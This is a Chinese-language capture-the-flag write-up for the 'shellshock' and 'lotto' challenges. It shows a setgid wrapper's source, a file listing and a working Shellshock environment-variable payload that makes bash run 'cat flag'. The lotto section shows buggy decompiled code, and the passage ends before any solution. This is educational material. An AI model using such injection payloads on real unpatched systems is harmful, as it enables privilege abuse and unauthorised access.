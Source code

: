 目录下还有shellshock的源码

```c
#include <stdio.h>
int main(){
	setresuid(getegid(), getegid(), getegid());
	setresgid(getegid(), getegid(), getegid());
	system("/home/shellshock/bash -c 'echo shock_me'");
	return 0;
}
```

看一下文件的权限

```shell
shellshock@ubuntu:~$ ls -l
total 960
-r-xr-xr-x 1 root shellshock     959120 Oct 12  2014 bash
-r--r----- 1 root shellshock_pwn     47 Oct 12  2014 flag
-r-xr-sr-x 1 root shellshock_pwn   8547 Oct 12  2014 shellshock
-r--r--r-- 1 root root              188 Oct 12  2014 shellshock.c
```

可以看到flag和shellshock都属于shellshock_pwn这个组，如果我们获得了shellshock_pwn的root权限，那么就可以读取flag的内容

分析一下shellshock.c的代码，getegid函数能获取当前有效组的识别码，这里获取的就是shellshock_pwn组，而setresuid和setresgid是分别将组标识号和用户标识号都设置为shellshock_pwn组的识别号。那么运行shellshock之后我们就有了读取flag的权限。

payload：`env x='() { :;}; ./bash -c "cat flag"' ./shellshock`

<br>

### lotto

>Description：Mommy! I made a lotto program for my homework.
>do you want to play?
>
>On Aug 1,2018

这就是个猜号码的程序，但是代码有bug

关键如下

```c
  for ( i = 0; i <= 5; ++i )
    buf[i] = (unsigned __int8)buf[i] % 45u + 1; 

  for ( j = 0; j <= 5; ++j )
  {
    for ( k = 0; k <= 5; ++k )
    {
      if ( buf[j] == submit[k] )
        ++v3;
    }
  }
  if ( v3 == 6 )
    system("/bin/cat flag");
```
